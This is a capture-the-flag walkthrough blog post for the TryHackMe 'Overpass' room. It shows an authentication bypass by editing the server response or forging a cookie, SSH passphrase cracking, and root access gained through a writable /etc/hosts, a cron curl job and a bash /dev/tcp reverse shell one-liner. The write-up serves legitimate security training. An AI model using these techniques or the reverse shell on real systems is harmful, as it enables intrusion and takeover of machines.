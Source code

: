 ```yaml
---
layout: post
published: true
title: "Writeup TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).

>Hello, today we are going to solve an exciting room Overpass, which is quite different for me than other challenges. It is worth solving this room as it contains some essential Owasp Top 10 vulnerability, i.e Broken Authentication. Also, using some automated Privilege Escalation scripts like linpeas.sh makes it more interesting.

## Enumeration
---
<h3>Nmap</h3>

![Overpass Walkthrough nmap]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.
Simultaneously starting nikto scan till then but got nothing unusual.

![OverpassWalkthrough nikto]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass writeup website]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.
<h3>Dirsearch Scan</h3>

![Overpass room dirscan]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)
Directory scanning showed many pages but /admin/ seems interesting.
<h3>Logging In via Broken Authentication</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![Overpass_tryhackme_logincode]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)
The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server to run the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass solution burpsuite]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)
Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![walkthrough_Overpass_burp]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)
Forwarding the request to get the response:

![writeup Overpass response]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)
We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get access.<br>
Wow! we got access to the page without the credentials.

![Overpass solutions]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><u><b>BONUS</b></u></h3>
---
There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass_tryhacme_cookies]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)
Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)

Now Moving to page provides majorly 2 information:
``` 
1.There is a user name james.
2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforcing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![Overpass_walkthrough]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)
It successfully found the passphrase . Now we can log in via SSH.

![ssh_Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)
Get the user flag and submit.

![Overpass_flag]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)

<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
1.Can't run sudo -l as don't know james password.
2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![Overpass_root_curl]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)
User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass_etc_hosts]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)
Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as the hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.
Let us do this practically:

![Overpass_python_server]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)
```
1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
2. Make the same directory as "/downloads/src/buildscript.sh" 
3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
4.Now start a netcat listener locally to which the Box will connect.
5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.
```

![Overpass_flag2]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)
Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals, and I enjoyed solving it and writing its walkthrough.
<br>
<br>

<i>Thanks for your patience, I hope you enjoyed reading. Happy Hacking... </i>

